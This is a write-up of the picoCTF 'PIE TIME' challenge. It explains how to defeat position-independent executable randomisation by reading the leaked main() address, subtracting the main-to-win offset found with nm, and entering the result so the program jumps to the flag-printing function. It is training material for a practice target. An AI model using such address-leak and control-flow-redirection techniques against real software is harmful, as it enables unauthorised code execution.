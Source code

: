 📄 walkthrough.md – Full Write-Up
 picoCTF: PIE TIME 🥧

**Category:** Binary Exploitation
**Difficulty:** Easy
**Points:** 
**Challenge Link:** [PIE TIME](https://play.picoctf.org/practice/challenge/490?originalEvent=74&page=1)

---
 🧠 Challenge Description

> Can you try to get the flag? Beware we have PIE!  
> Connect with:  
> `nc rescued-float.picoctf.net <PORT>`

---
 📂 Files Provided

- `vuln.c` – Source code
- `vuln` – Compiled binary

---
 🔍 Understanding the Source Code

The binary:
1. Shows the memory address of `main()` at runtime.
2. Asks the user to enter an address.
3. Then jumps to that address using a function pointer.

There’s a hidden function:

```c
int win() {
    // Opens flag.txt and prints the content
}
Our goal is to jump to this win() function!

🔐 Security Checks
We ran:

checksec --file=vuln
Output:
t
Full RELRO | Canary found | NX enabled | PIE enabled
🔑 Meaning:

We can’t do a buffer overflow.

We can’t hardcode any memory addresses (because of PIE).

But… we can jump to a calculated function address.

📐 Strategy (Bypass PIE)
We don’t overflow. Instead:

main() address is printed during execution.

Use nm vuln to get offset between main and win:
nm vuln | grep ' main\| win'
Output:
000000000000133d T main
00000000000012a7 T win
➤ Offset = 0x133d - 0x12a7 = 0x96 (hex) or 150 (dec)

So:
win_addr = main_addr - 0x96
🧪 Exploit Steps
Start connection:
nc rescued-float.picoctf.net 54420
Program prints:
Address of main: 0x6284ffca733d
Calculate win address:
python3 -c "print(hex(0x6284ffca733d - 0x96))"
# Output: 0x6284ffca72a7
Enter this address:
Enter the address to jump to: 0x6284ffca72a7

✅ You should see:
You won!
picoCTF{your_flag_here}

🧠 Key Learning
PIE (Position Independent Executable) loads code at different memory locations each time.

Instead of leaking all addresses, we used relative offset (main - win).

No buffer overflow needed!

🛠️ Tools Used
checksec

nm

nc

Python (for offset math)
